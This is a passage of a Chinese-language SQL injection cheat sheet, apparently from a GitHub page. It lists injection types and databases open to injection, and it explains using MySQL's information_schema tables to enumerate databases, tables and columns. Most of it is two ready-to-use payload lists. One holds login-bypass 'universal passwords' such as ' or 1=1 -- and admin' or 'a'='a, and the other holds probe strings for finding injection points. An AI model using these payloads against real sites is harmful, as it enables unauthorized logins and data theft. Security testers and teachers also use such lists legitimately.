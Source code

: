 ```linux
2、基于时间的盲注，用条件语句查看时间延迟语句是否执行来判断。
3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
4、联合查询注入，可以使用union的情况下的注入。
5、堆查询注入，用;结束当前语句,在后面执行自己的语句，可以同时执行多条语句的执行时的注入。
6、内联查询注入，在查询语句中嵌套sql语句
```

可以注入的数据库

```linux
MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB等，所有存储数据的数据库都有可能存在注入。
```

## 数据库元数据表

```linux
information_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式。

元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。有些时候用于表述该信息的其他术语包括“数据词典”和“系统目录”。

也就是说information_schma可以查到你的所有的搭建的数据库名、表名和列的数据类型，在一切条件未知的情况下，存在注入点的话我们可以直接尝试对information_schema进行访问，从而获得更多的信息。

SCHEMATA:提供了当前MySQL实例中所有数据库的信息
TABLES:所有数据库表的信息
CONLUMNS：提供了列信息
```

## 绕过验证(常见的为管理登陆)也称万能密码

```linux
(1) 用户名输入： 'or 1=1 or'  密码：任意
(2) Admin' -- (或'or 1=1 or' --)(admin or 1=1 --) (MSSQL)(直接输入用户名，不进行密码验证)
(3) 用户名输入：admin   密码输入：' or '1'='1  也可以
(4) 用户名输入：admin' or 'a'='a    密码输入：任意
(5) 用户名输入：' or 1=1 --
(6) 用户名输入：admin' or 1=1 --  密码输入：任意
(7) 用户名输入：1'or'1'='1'or'1'='1   密码输入：任意
```

## 测试注入点的语句

```linux
# 基础判断注入语句
||0--+
||1--+
&& true--+
&& false--+
and 1=1--+
and 1=2--+
and 2>1--+
and 2>3--+
and '1'='1
and '1'='2
and "1"="1"--+
and "1"="2"--+
and '1'='2' )
and ("x"="x
or 1=1 --+
or 1=2 --+
or ''=''--+
or 's'='s'--+
or ('a'='a
and 1=1 and '%'='
```